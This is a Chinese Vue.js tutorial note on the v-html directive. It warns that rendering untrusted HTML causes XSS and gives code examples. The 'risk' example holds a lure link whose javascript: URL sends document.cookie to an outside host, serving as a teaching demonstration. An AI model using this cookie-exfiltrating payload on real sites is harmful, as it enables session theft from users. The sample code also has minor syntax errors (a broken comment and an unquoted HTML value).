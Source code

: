 ## v-html

v-html指令:	

​	1.作用:向指定节点中渲染包含html结构的内容。

​	2,与插值语法的区别:

​		(1).v-html会替换掉节点中所有的内容,{{xx}}则不会。

​		(2).v-html可以识别html结构。

​	3.严重注意: 

​		v-html有安全性问题!!!!

​		(1).在网站上动态演染任意HTML是非常危险的,容易导致XSS攻击。

​		(2).一定要在可信的内容上使用v-html,永远不要用在用户提交的内容上!



```
<!DOCTYPE html> 
<html>
    <head>
        <meta charset="UTF-8" />
        <title>v-text指令</title>
        <!--引入Vue -->
        <script type="text/javascript" src="../js/vue.js">
        </script> 
    </head>
    <body>
        <!-<!--准备好一个容器-->
        <div id="root">
        	<div>你好，{{name}}</div>
        	<div v-html="str">你好</div>			//渲染正常格式
        </div>
    </body>
    <script type="text/javascript">
    	Vue.config.productionTip= false //阻止 vue 在启动时生成生产提示。
    	
    	new Vue({
    		el:'#root',
    		data:{
    			name:'尚硅谷',
    			str:<h3>你好啊!</h3>				//会渲染为文本内容
    			
    		}
    	})
    </script>
</html>
```



## 风险：

```
<!DOCTYPE html> 
<html>
    <head>
        <meta charset="UTF-8" />
        <title>v-text指令</title>
        <!--引入Vue -->
        <script type="text/javascript" src="../js/vue.js">
        </script> 
    </head>
    <body>
        <!-<!--准备好一个容器-->
        <div id="root">
        	<div>你好，{{name}}</div>
        	<div v-html="str"></div>
            <div v-html="str2"></div>
        </div>
    </body>
    <script type="text/javascript">
    	Vue.config.productionTip= false //阻止 vue 在启动时生成生产提示。
    	
    	new Vue({
    		el:'#root',
    		data:{
    			name:'尚硅谷',
    			str:<h3>你好啊!</h3>,
                str2:'<a href=javascript:location.href="http://www.baidu.com?"+document.cookie>兄弟我找到你想要的资源了，快来！</a>',
    			
    		}
    	})
    </script>
</html>
```


